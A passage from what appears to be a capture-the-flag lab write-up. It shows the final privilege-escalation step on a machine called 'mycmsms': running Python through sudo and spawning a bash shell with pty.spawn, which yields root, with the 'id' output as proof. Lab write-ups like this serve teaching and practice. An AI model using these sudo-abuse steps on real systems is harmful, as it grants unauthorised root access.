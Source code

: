 ```
armour@mycmsms:~$ sudo /usr/bin/python
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty;pty.spawn("/bin/bash")
root@mycmsms:/home/armour# id
uid=0(root) gid=0(root) groups=0(root)
root@mycmsms:/home/armour# 
```
opened python and spawn a tty shell, and Boom we got root.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d5977c2d-b99b-4b1d-b414-faaf8f3a961d)

And we are through 😜 had fun yeah? 




